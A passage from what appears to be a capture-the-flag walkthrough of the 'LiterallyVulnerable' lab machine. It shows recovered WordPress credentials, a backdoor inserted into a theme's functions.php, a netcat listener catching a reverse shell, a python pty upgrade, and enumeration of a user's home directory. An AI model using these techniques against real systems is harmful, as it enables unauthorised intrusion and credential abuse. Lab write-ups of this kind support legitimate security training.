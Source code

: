 Looks like some credentials were found: Username: maybeadmin, Password: $EPid%J2L9LufO5.

After signing into wordpress with maybeadmin, the next set of credentials was
recovered.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/LiterallyVulnerable/Images/6aa1763a7eb4b00709a25d310f9e01d5.png?raw=true)

Notadmin was indeed an account with administrative privilege.

Low Privilege Exploitation
--------------------------

### Initial Foothold (weak WordPress file permissions, nc)

Once signed in, in Edit Theme a suitable php file was found in order to insert a
backdoor.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/LiterallyVulnerable/Images/bd9f0905468a0ae815b34fad02acb211.png?raw=true)

Once
literally.vulnerable:65535/phpcms/wp-content/themes/twentyseventeen/functions.php
is visited, the reverse shell is caught.

Catching Reverse Shell & Upgrading to TTY

```
lifesfun:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.211.146] from (UNKNOWN) [192.168.211.147] 45116
Linux literallyvulnerable 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:27:24 up  2:51,  0 users,  load average: 0.00, 0.00, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@literallyvulnerable:/$
```

After signing an interesting file was discovered in directory of user doe.

```
www-data@literallyvulnerable:/home/doe$ ls -laht
ls -laht
total 52K
drwxr-xr-x 5 doe  doe  4.0K Dec  4 13:54 .
-rw------- 1 doe  doe   125 Dec  4 13:54 local.txt
drwx------ 2 doe  doe  4.0K Dec  4 13:48 .cache
drwx------ 3 doe  doe  4.0K Dec  4 13:48 .gnupg
-rw-r--r-- 1 root root   75 Dec  4 12:53 noteFromAdmin
drwxr-xr-x 4 root root 4.0K Dec  4 12:29 ..
-rwsr-xr-x 1 john john 8.5K Dec  4 12:26 itseasy
-rw-r--r-- 1 doe  doe  3.8K Dec  4 12:24 .bashrc
drwxrwxr-x 3 doe  doe  4.0K Dec  4 12:23 .local
lrwxrwxrwx 1 root root    9 Dec  4 12:18 .bash_history -> /dev/null
-rw-r--r-- 1 doe  doe   220 Dec  4 12:11 .bash_logout
-rw-r--r-- 1 doe  doe   807 Dec  4 12:11 .profile
```
